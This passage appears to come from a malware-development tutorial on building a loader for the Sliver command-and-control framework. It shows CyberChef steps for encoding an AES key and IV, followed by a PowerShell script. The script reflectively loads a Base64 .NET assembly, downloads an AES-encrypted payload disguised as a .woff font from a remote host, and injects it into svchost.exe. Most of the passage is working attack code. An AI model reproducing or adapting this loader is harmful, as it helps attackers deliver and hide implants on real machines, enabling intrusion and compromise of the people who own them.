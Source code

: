 ![SliverLoader Base64 Recipe](/assets/images/maldev/loader-base64.png)

Next convert the AESKey and AESIV to hex using another [CyberChef recipe](https://cyberchef.io/#recipe=To_Hex('0x%20with%20comma',0)).

![SliverLoader AESkey Recipe](/assets/images/maldev/loader-aeskey-recipe.png)

Copy the Base64 data and paste it into a PowerShell script.

```powershell
$encodeStr = "TVqQAAMAAAAEAAAA...<SNIP>"

[System.Reflection.Assembly]::Load([System.Convert]::FromBase64String($encodeStr))
$url = "https://192.168.129.40:8443/test.woff"
$TargetBinary = "svchost.exe"
[byte[]]$AESKey = 0x44,0x28,0x47,0x2b,0x4b,0x62,0x50,0x65,0x53,0x68,0x56,0x6d,0x59,0x71,0x33,0x74
[byte[]]$AESIV = 0x38,0x79,0x2f,0x42,0x3f,0x45,0x28,0x47,0x2b,0x4b,0x62,0x50,0x65,0x53,0x68,0x56

$CompressionAlgorithm = "deflate9"
[serpent.Loader]::DownloadAndExecute($url,$TargetBinary,$CompressionAlgorithm,$AESKey,$AESIV)
```
